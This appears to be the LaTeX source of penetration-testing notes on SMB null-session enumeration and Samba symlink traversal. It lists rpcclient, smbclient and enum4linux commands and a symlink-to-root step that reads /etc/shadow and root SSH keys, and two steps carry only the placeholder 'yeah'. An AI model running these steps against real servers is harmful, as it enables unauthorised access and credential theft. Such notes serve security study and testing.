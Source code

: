 \documentclass[12pt, letterpaper]{article}
\begin{document}
\subsubsection*{SMB: Null Sessions}

\textbf{SMB null sessions} is an unauthenticated connection to a Windows SMB server that allows an attacker to query the system for information without any credentials (enabled when \texttt{RestrictAnonymous = 0} in the registry). It allows for enumeration of the network to provide enough information for password spraying, targeted phishing attacks, and sometimes even direct file access.

\begin{enumerate}
    \item \texttt{rpcclient -U "" -N <target>}: successful prompt indicates vulnerability.
    \item \texttt{enumdomusers} or \texttt{querydispinfo}: inside \texttt{rpcclient} to enumerate account names.
    \item \texttt{smbclient -L //<target> -N}: reveals hidden or administrative shares available for access.
    \item \texttt{enum4linux -a <target>}: scrapes all available system and user data in one command.
\end{enumerate}

\subsubsection*{SMB: Symlink Traversal}

\textbf{Symlink traversal} occurs when the Samba service is configured to follow "wide links" that point outside of the designated share path. Attackers with write access to a share can create symbolic links to root, effectively bypassing the share.

\begin{enumerate}
    \item \texttt{symlink / root\_portal}: point the share entry to the server's root directory.
    \item \texttt{cd root\_portal}: yeah
    \item \texttt{get /etc/shadow} or \texttt{/root/.ssh/id\_rsa}: yeah
\end{enumerate}

\subsection*{Secure Shell (SSH)}
\end{document}
